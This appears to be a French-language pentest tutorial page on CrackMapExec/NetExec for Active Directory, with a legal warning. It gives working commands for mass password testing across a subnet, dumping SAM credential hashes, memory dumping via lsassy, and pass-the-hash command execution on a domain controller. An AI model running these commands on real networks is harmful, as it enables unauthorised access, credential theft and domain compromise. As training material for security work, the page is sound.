

---
description: "CrackMapExec (CME) / NetExec — Le couteau suisse ultime pour l'énumération et l'exploitation massive d'Active Directory. L'outil roi des mouvements latéraux."
icon: lucide/book-open-check
tags: ["RED TEAM", "ACTIVE DIRECTORY", "CME", "LATERAL MOVEMENT", "PASS-THE-HASH"]
---

# CrackMapExec (CME) — Le Passe-Partout Industriel

<div
  class="omny-meta"
  data-level="🔴 Expert"
  data-version="5.4+ (NetExec 1.2+)"
  data-time="~25 minutes">
</div>


## Introduction

!!! quote "Analogie pédagogique — Le Passe-Partout du Concierge"
    Imaginez un voleur qui vient de voler une clé dans le bureau d'un employé. Cette clé ouvre la porte de cet employé, c'est bien. Mais si le voleur veut vérifier quelles *autres* portes cette clé ouvre dans l'immeuble de 500 pièces, il lui faudrait des heures pour tester les serrures une par une.
    **CrackMapExec** est un automate passe-partout. Vous lui donnez la clé volée (un mot de passe ou un Hash) et la liste des 500 portes. En 3 secondes, il teste la clé sur toutes les portes en même temps, et vous imprime un rapport : *"Cette clé ouvre les portes 12, 45, et bingo... elle ouvre la salle des serveurs (Pwn3d!)"*.

Initialement créé par *byt3bl33d3r*, **CrackMapExec** (souvent repris aujourd'hui sous son fork communautaire **NetExec** ou **nxc**) est l'outil post-exploitation le plus utilisé en Red Team sur les environnements Active Directory. Son rôle principal est d'automatiser les mouvements latéraux : prendre un compte compromis, et tester ce qu'il a le droit de faire (via SMB, WinRM, LDAP, MSSQL, SSH) sur toutes les autres machines du domaine.

<br>

---

## Fonctionnement & Architecture (Pass-the-Hash)

L'énorme force de CME est qu'il n'a même pas besoin du mot de passe en clair pour entrer par une porte. Sur un réseau Windows, le Hash NTLM suffit pour s'authentifier (Technique du "Pass-the-Hash").



<br>

---

## Cas d'usage & Complémentarité

CME est l'outil central de la boucle "Compromission ➔ Énumération ➔ Mouvement Latéral".

1. **Reconnaissance rapide (Sans mot de passe)** : Même sans compte, CME permet de balayer un réseau SMB pour obtenir instantanément le nom du domaine Active Directory et la version exacte des systèmes Windows (`cme smb 10.0.0.0/24`).
2. **Exécution de code (Psexec/WinRM)** : Dès que l'outil affiche `(Pwn3d!)` sur une machine, cela signifie que vous êtes Administrateur de cette machine. CME permet alors de lui envoyer des commandes systèmes (ex: `-x "whoami"`) sans ouvrir de RDP.
3. **Cartographie LDAP** : Combiné avec le mot de passe d'un simple utilisateur, il peut aspirer l'annuaire complet de l'entreprise (liste des utilisateurs, groupes) via le module LDAP.

<br>

---

## Les Options Principales

La syntaxe de CME est structurée : `cme [protocole] [cibles] [identifiants] [modules]`. Le protocole roi est **SMB**.

| Option | Fonction | Description approfondie |
| :--- | :--- | :--- |
| `-u [user]` <br> `-p [pass]` | **Authentification** | Spécifie l'utilisateur et le mot de passe. Si vous avez un Hash au lieu du mot de passe, utilisez `-H [hash]`. (Le NTLM hash suffit). |
| `--local-auth` | **Comptes Locaux** | (Très important) Par défaut, CME essaie de se connecter aux comptes du *Domaine*. Si vous avez volé le mot de passe de "Administrateur" (le compte local des machines), ajoutez ce flag. |
| `--shares` | **Énumération Partages** | Liste tous les dossiers réseau partagés (C$, ADMIN$, Public) de chaque machine et indique si vous avez le droit de les lire. |
| `-M [module]` | **Modules d'Exploitation** | Exécute des scripts puissants (ex: `-M lsassy` pour dumper les mots de passe de la mémoire, ou `-M spider_plus` pour fouiller les documents Word). |
| `-x [cmd]` | **Exécution (CMD)** | Exécute une commande système sur toutes les machines où l'accès est total (`Pwn3d!`). |

<br>

---

## Installation & Configuration

CrackMapExec étant partiellement déprécié, la communauté a créé **NetExec** (`nxc`), qui est la version moderne et mise à jour. Les commandes (`cme` et `nxc`) sont syntaxiquement identiques.

```bash title="Installation de NetExec (Le nouveau CME)"
# Sous Kali Linux
sudo apt update && sudo apt install netexec

# La commande se lance via 'nxc' au lieu de 'cme'
nxc smb 10.0.0.5
```

<br>

---

## Le Workflow Idéal (Le Mouvement Latéral)

Le scénario classique : l'attaquant vient de compromettre le mot de passe `P@ssw0rd123` du compte de `j.dupont`. Que peut-il faire avec ?

### 1. Trouver les machines vulnérables
L'attaquant va tester ces identifiants sur tout le réseau (ex: le sous-réseau `10.0.0.0/24` qui contient 254 PC).
```bash title="Pass-the-Password massif"
nxc smb 10.0.0.0/24 -u "j.dupont" -p "P@ssw0rd123"
```
*Si le terminal affiche `[+] 10.0.0.50 : j.dupont (Pwn3d!)`, cela signifie que J.Dupont possède les privilèges d'administrateur local sur la machine `.50`.*

### 2. Piller la machine compromise
Puisque l'attaquant est administrateur de `.50`, il peut voler tous les autres mots de passe stockés en mémoire (SAM) sur ce poste.
```bash title="Dump de la base SAM"
nxc smb 10.0.0.50 -u "j.dupont" -p "P@ssw0rd123" --sam
```
*L'outil affichera les hachages NTLM de tous les autres employés qui se sont connectés récemment sur ce poste, notamment l'Administrateur du réseau (s'il est passé faire une réparation).*

### 3. Le Pass-the-Hash Ultime
L'attaquant a récupéré le hash de l'Administrateur ! Plus besoin de casser le hash, il l'injecte directement pour compromettre le cœur du réseau, le Contrôleur de Domaine (DC).
```bash title="Compromission du Domaine (Pass-the-Hash)"
# -H : On utilise l'empreinte cryptographique directement
nxc smb 10.0.0.2 -u "Administrateur" -H "aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0" -x "whoami"
```
*Le contrôleur de domaine renvoie `nt authority\system`. Le réseau de l'entreprise est totalement compromis.*

<br>

---

## Bonnes & Mauvaises Pratiques (Do's & Don'ts)

| Action | Recommandation | Explication métier |
|---|---|---|
| ✅ **À FAIRE** | **Passer par WinRM si SMB est bloqué** | Si les pare-feux des machines Windows bloquent le port 445 (SMB), remplacez `cme smb` par `cme winrm` (Port 5985). Les commandes sont identiques. |
| ❌ **À NE PAS FAIRE** | **Tester des listes de mots de passe (Password Spraying) sans vérifier le Lockout** | Ne testez **jamais** un dictionnaire de mots de passe sur l'AD sans connaître la "Account Lockout Policy". Si l'entreprise verrouille les comptes après 3 erreurs, votre commande CME va bloquer littéralement les comptes de tous les employés de l'entreprise en 2 secondes, causant une paralysie générale (DoS). |

<br>

---

## Avertissement Légal & Éthique

!!! danger "L'Accès Maintien et le Vol Privilégié"
    CME/NetExec est l'incarnation de l'intrusion active dans des serveurs non-publics.
    
    1. Tester un mot de passe volé sur d'autres serveurs (Mouvement Latéral) aggrave l'infraction de l'Article 323-1 (Accès frauduleux).
    2. Utiliser le module d'extraction de mémoire (Dump LSA/SAM) est juridiquement de l'extraction frauduleuse de données contenues dans un système de traitement.
    
    CME fait "briller les yeux" car ses lignes s'affichent en vert vif, mais son usage sans autorisation (même "pour tester") sur le réseau de son employeur est le motif classique de licenciement pour faute grave (et de poursuites judiciaires).

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    Avoir le mot de passe d'un utilisateur, c'est bien. Savoir sur quel poste ce mot de passe permet d'être "Administrateur Local" pour rebondir vers de nouvelles victimes, c'est ça, le vrai métier du Pentester. CrackMapExec (NetExec) est l'outil qui automatise cette réflexion logique complexe, transformant des mois d'exploration manuelle en quelques secondes de console.

> Vous avez trouvé des serveurs vulnérables, mais vous aimeriez exploiter ces failles "à la main" en profondeur sans automatisation ? Passez de l'orchestrateur de haut niveau à l'artillerie de précision bas niveau avec l'incroyable collection de scripts **[Impacket →](./impacket.md)**.


